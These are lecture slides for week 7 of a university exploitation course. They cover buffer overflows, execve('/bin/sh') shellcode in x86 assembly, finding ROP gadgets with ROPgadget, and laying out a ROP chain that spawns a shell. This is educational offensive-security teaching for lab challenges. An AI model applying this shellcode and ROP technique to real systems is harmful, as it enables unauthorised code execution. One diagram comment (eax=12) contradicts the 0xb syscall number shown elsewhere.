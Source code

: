 ```yaml
---
title: "Week07"
layout: "bundle"
outputs: ["Reveal"]
---
```


## We'll get started at [46]:05

---

{{< slide class="center" >}}
# Week07
### T1[68]A COMP6447 

---

## Good faith policy

We expect a high standard of professionalism from you at all times while you are taking any of our courses. We expect all students to act in good faith at all times

*TLDR: Don't be a ~~dick~~ jerk*

[sec.edu.au/good-faith-policy](https://sec.edu.au/good-faith-policy)

---

## House cleaning
{{% section %}}

### Fuzzer
* Midpoint check-in is due this Sunday 6pm
* Make sure you've got a working prototype

---

### Midterm
* How'd you find it

{{% /section %}}

---

## A summary so far
{{% section %}}

### Weeks 2/3
* buffer overflow &#8594; `win()`
* shellcode (building a `win()`)

&nbsp;

### Now:
* ROP (building a `win()` again)

---

### Buffer overflows
* Abusing functions which can read more data than they have allocated memory for (`gets`, `strcpy`)

* Allows us to control the stack (local vars, ret)

* *Mitigations*: ASLR/PIE/Stack canaries

* *Breaking them*: leaking addresses/the canary

---

### Shellcode
* Once we can control execution of the program (e.g. changing the return address), where do we go?
    * We trick it into treating our user-supplied as code.
    * Then jump to the code

* *Mitigations*: NX, buffer too small for a payload
* *Breaking them*: ROP, EggHunters

{{% /section %}}

---

## ROP
{{% section %}}


---

### Old shellcode
```
/* argv = envp = NULL */
xor edx, edx
xor ecx, ecx

/* push '/bin/sh' onto stack */
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp

/* call execve() */
mov eax, 0xb /* Syscall Number 11 */
int 0x80     /* Trigger syscall */
```

---

### How do we replicate this
`execve('/bin/sh', NULL, NULL)`
```
EAX = 0xB # (11)
EBX = address to /bin/sh
ECX = NULL
EDX = NULL
INT 0x80 Syscall
```

Now that's it's ROP
```
[GADGET_1] # EAX = 0xB # (11)
[GADGET_2] # EBX = address to /bin/sh
[GADGET_3] # ECX = NULL
[GADGET_4] # EDX = NULL
[GADGET_5] # INT 0x80 Syscall
```

---

### How do we find gadgets?
* [Ropper](https://github.com/sashs/Ropper)
* [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
* [ropr](https://github.com/Ben-Lichtman/ropr)

---

### Finding gadgets
```
> ROPgadget --binary ropme | grep 'pop ebx'
0x0804832d : pop ebx ; ret

> ROPgadget --binary ropme | grep 'xor ecx'
0x080484b5 : xor ecx, ecx ; ret

> ROPgadget --binary ropme | grep 'xor edx'
0x080484b8 : xor edx, edx ; ret

> ROPgadget --binary ropme | grep 'int 0x80'
0x080484bb : mov eax, 0xb ; int 0x80
```

---

### Using strings and values
```C
p32(0x08041234) // pop ebx; ret;
p32(0x0804abcd) // address of "/bin/sh"
// now ebx stores a pointer to "/bin/sh"

p32(0x08041234) // pop ebx; ret;
p32(0xA)        // 10
// now ebx == 10
```

---

### Getting the stack address
```C
push esp, pop ebx; ret;
// now ebx will store &esp
```

> Generally both instructions will need to be in the same gadget

---

```
[  PADDING  ] <== our first gadget should overwrite ret
[  POP EBX  ]
[  &BIN SH  ]
[  XOR ECX  ]
[  XOR EDX  ]
[  SYSCALL  ] <== look above, it sets eax=12 and syscalls
```

---

### How else could we get a shell?
```
PUSH &('/bin/sh)
CALL SYSTEM
```

---

{{% /section %}}

---

## Demo
> ROP & Ret2Libc

---

## Tutorial
> 3 chals this week, try to solve them all

---

## Walkthrough
> elon-musk